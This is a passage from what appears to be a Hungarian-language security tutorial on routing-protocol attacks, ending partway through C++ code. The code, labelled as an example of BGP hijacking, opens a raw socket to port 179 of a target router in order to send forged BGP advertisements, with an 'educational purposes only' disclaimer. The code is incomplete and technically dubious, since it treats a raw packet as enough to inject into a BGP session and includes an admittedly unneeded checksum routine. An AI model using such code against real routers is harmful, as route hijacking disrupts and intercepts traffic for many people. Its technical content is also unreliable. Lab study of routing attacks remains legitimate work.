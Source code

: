 #### Laborkörnyezetbe Implementálás

A routing protokoll támadások megértése és tesztelése laboratóriumi környezetben is elvégezhető, ahol a biztonsági mechanizmusokat különféle támadási forgatókönyvek ellen lehet vizsgálni.

#### Példa Kód C++ nyelven: Hamis BGP Hirdetések Küldése

Az alábbi példa bemutatja, hogyan lehet C++ nyelvet használva hamis BGP hirdetéseket küldeni. Fontos megjegyezni, hogy ez kizárólag oktatási célokat szolgál, és tilos valódi hálózatokban alkalmazni.

```cpp
#include <iostream>

#include <cstring>
#include <sys/socket.h>

#include <netinet/in.h>
#include <arpa/inet.h>

// PS: Running this code requires root privileges
// And is for educational purposes only

// BGP Header Structure
struct BGP_Header {
    uint16_t length;
    uint8_t  type;
};

// BGP Update Message Structure
struct BGP_Update {
    uint8_t marker[16];
    BGP_Header header;
    // Followed by variable length data
};

// Checksum function (not typically needed for BGP)
unsigned short csum(unsigned short *buf, int nwords) {
    unsigned long sum;
    for (sum = 0; nwords > 0; nwords--)
        sum += *buf++;
    sum = (sum >> 16) + (sum & 0xFFFF);
    sum += (sum >> 16);
    return (unsigned short)(~sum);
}

// Example BGP hijacking using raw socket
int main() {
    int sock;
    struct sockaddr_in dest;
    char packet[4096];

    sock = socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
    if (sock < 0) {
        perror("Socket creation failed");
        exit(EXIT_FAILURE);
    }

    memset(packet, 0, 4096);

    // Destination address
    dest.sin_family = AF_INET;
    dest.sin_port = htons(179); // BGP port
    dest.sin_addr.s_addr = inet_addr("192.0.2.1"); // Target BGP Router

    // Fill in BGP header
```